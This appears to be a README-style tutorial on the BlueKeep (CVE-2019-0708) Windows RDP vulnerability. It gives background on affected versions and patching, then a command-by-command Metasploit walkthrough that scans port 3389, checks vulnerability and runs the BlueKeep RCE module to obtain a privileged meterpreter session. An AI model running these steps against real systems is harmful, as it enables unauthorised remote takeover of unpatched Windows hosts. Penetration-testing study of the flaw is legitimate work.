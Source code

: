 <h1>CVE-2019-0708-BlueKeep</h1>
<hr>
<ul>
  <li>
    Bluekeep (CVE-2019-0708) is the name given to an RDP vulnerability in Windows that could potentially allow attackers to remotely execute arbitrary code and gain access to a windows syatem and consequently the network that the target system is a part of.
  </li>
  <li>
    The BlueKeep vulnerability was made public by Microsoft in May 2019.
  </li>
  <li>
    The BlueKeep exploit takes advantages of a vulnerability in the windows RDP protocol that allows attackers to gain access to a chunk of kernel memory consequently allowing them to remotely execute arbitrary code at the system level without authentication.
  </li>
  <li>
    Microsoft released a patch for this vulnerability on May 14th,2019 and has urged companies to patch this vulnerability as soon as possible.
  </li>
  <li>
    At the time of discovery, about 1 million systems worldwide were found to be vulnerable.
  </li>
  <li>
    The BlueKeep vulnerability affects multiple versions of windows:
    <ul>
      <li>XP</li>
      <li>Vista</li>
      <li>Windows 7</li>
      <li>Windows Server 2008 & R2</li>
    </ul>
    
  </li>
</ul>

</hr>
<h2>CVE-2019-0708-BlueKeep Exploit</h2>
<ul>
  <li>
    This BlueKeep Vulnerability has various illegitimate PoC's and exploit code that could be malicious in nature. It is therefore recommended to only utilize verified exploit code and modules for exploitation.
  </li>
  <li>
    The BlueKeep exploit has an MSF auxiliary module that can be used to check if a target system if vulnerable to the exploit and also has and exploit module that can be used to exploit the vulnerability on unpatched systems.
  </li>
  <li>
    The BlueKeep exploit module can be used to exploit vulnerable Windows systems and consequently provide us with a privileged meterpreter session on the target system.
  </li>
</ul>
Note: Targeting Kernel space memory and application can cause system crashes.
<hr>

<h3>Pratically</h3>
<ol>
  <li><code>nmap -p 3389 {ip}</code></li><br>
</ol>
<hr>
<span>check target is vulnerable to this vulnerable</span>
<ol>
  <li><code>msfconsole</code></li>
  <li><code>search BlueKeep</code></li>
  <li><code>use auxiliary/scanner/rdp/cve_2019_0708_bluekeep</code></li>
  <li><code>show options</code></li>
  <li><code>set RHOSTS {ip}</code></li>
  <li><code>run</code></li>

  Now we can know that the target is vulnerable to this vulnerability or not. If vulnerable move to exploit.
  </ol>
  <hr>
  <ol>
  <li>search BlueKeep</li>
  <li><code>exploit/windows/rdp/cve_2019_0708_bluekeep_rce</code></li>
  <li><code>show options</code></li>
  <li><code>set RHOSTS {ip}</code></li>
  <li><code>exploit</code></li>
  <li><code>Show targets</code></li>
  <li><code>set target 2</code></li>
  <li><code>exploit</code></li>
</ol>
